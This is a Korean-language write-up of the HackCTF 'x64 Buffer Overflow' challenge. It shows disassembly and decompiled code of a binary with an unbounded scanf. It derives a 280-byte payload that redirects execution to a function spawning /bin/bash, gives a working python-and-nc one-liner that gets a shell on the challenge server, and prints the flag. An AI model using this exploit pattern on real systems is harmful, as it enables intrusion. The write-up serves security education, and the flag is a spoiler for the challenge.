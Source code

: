 # x64 Buffer Overflow

---

x64에서의 기본적인 bufferoverflow문제이다. 우선 `main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:	push   rbp
   0x0000000000400642 <+1>:	mov    rbp,rsp
   0x0000000000400645 <+4>:	sub    rsp,0x120
   0x000000000040064c <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400652 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400659 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400660 <+31>:	mov    rsi,rax
   0x0000000000400663 <+34>:	mov    edi,0x400741
   0x0000000000400668 <+39>:	mov    eax,0x0
   0x000000000040066d <+44>:	call   0x400508
   0x0000000000400672 <+49>:	lea    rax,[rbp-0x110]
   0x0000000000400679 <+56>:	mov    rdi,rax
   0x000000000040067c <+59>:	call   0x4004e0
   0x0000000000400681 <+64>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400684 <+67>:	lea    rax,[rbp-0x110]
   0x000000000040068b <+74>:	mov    rsi,rax
   0x000000000040068e <+77>:	mov    edi,0x400744
   0x0000000000400693 <+82>:	mov    eax,0x0
   0x0000000000400698 <+87>:	call   0x4004e8
   0x000000000040069d <+92>:	mov    eax,0x0
   0x00000000004006a2 <+97>:	leave  
   0x00000000004006a3 <+98>:	ret    
End of assembler dump.
```

```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char s; // [rsp+10h] [rbp-110h]
      int v5; // [rsp+11Ch] [rbp-4h]
    
      _isoc99_scanf("%s", &s);
      v5 = strlen(&s);
      printf("Hello %s\n", &s);
      return 0;
    }
```

다음에서 보면 scanf를 통해서 s에 문자열을 입력받는다. 이때 문자열 길이에 제한이 없기 때문에 stackoverflow가 일어난다. 때문에 `main()`의 ret주소를 다음 함수의 주소로 바꾸어주면 된다.

```c
    int callMeMaybe()
    {
      char *path; // [rsp+0h] [rbp-20h]
      const char *v2; // [rsp+8h] [rbp-18h]
      __int64 v3; // [rsp+10h] [rbp-10h]
    
      path = "/bin/bash";
      v2 = "-p";
      v3 = 0LL;
      return execve("/bin/bash", &path, 0LL);
    }
```
`main()+24`에서 보면 scanf를 통해서 받는 문자열의 주소가 rbp-0x110이다. 때문에 `main()`의 ret주소를 조작하기 위해서는 0x110에다가 SFP(8bytes)만큼 dummy로 덮고 `callMeMaybe()`의 주소를 ret주소에 덮어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[dummy 280bytes] + callMeMaybe()_address**

`callMeMaybe()`의 주소는 다음과 같으므로 익스가 가능하다.
```gdb
    gdb-peda$ p callMeMaybe
    $1 = {<text variable, no debug info>} 0x400606 <callMeMaybe>
```
---
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/5.x64BufferOverflow$ (python -c "print 'A'*280 + '\x06\x06\x40\x00\x00\x00\x00\x00'";cat) | nc ctf.j0n9hyun.xyz 3004
    whoami
    attack
    ls
    flag
    main
    cat flag
    HackCTF{64b17_b0f_15_51mpl3_700}
```
**flag: HackCTF{64b17_b0f_15_51mpl3_700}**
